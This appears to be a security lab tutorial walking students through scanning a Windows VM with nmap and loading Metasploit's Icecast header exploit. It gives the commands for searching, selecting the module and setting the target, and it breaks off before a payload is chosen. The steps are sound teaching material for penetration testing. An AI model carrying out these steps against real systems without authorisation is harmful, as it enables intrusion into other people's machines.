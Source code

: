 ## Start msfconsole

3.	In Kali, from a terminal, enter:

        msfconsole

    You should see a “msf >” prompt appear. This is the Metasploit command line.


## `nmap` Scan Windows

3.  Scan the Windows VM for vulnerabilities using `nmap`

        nmap -sV <ip of Windows>

    Notice that Icecast is running on port 8000. Could there be an exploit for Icecast built into Metasploit? Let's check!


## Search for a vulnerability in the msf database, arm it, select a payload, and exploit

4.  From the `msf >` prompt, try:

        search name:icecast

5.  {% if site.instructorcollab_username == 'jdarcy' %}Heyo!{% endif %} In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> you can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it will show you all possible options directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	To get more information about this exploit module, type `info`. This module has been rated “great,” meaning it is very effective and reliable.
    Besides providing a better description, the `info` command shows the targets that the module is effective against, as well as options to set.

8.	To show available options, type `show options`.

9.	Let’s set the required options. First, we’ll set the remote host:

        set rhost <IP address of your Windows VM>

    Type `show options` again to see that the RHOST variable has been set.

10.	Next, let’s look at available payloads for this exploit:

        show payloads

11.	We have a lot of payload options for this module. We’ll use one of the most popular and reliable payloads. Type:
